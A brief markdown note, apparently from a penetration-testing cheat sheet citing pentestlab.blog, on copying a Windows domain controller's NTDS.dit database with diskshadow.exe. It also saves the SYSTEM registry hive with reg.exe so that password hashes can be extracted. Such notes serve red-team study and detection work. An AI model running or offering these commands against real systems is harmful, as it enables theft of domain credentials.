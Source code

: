 # Use DiskShadow to copy NTDS.dit

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

diskshadow.exe /s c:\windows\temp\diskshadow.txt

To extract password hashes, you will also get an extract of SYSTEM from the registry:

reg.exe save hklm\system c:\windows\temp\reg.bak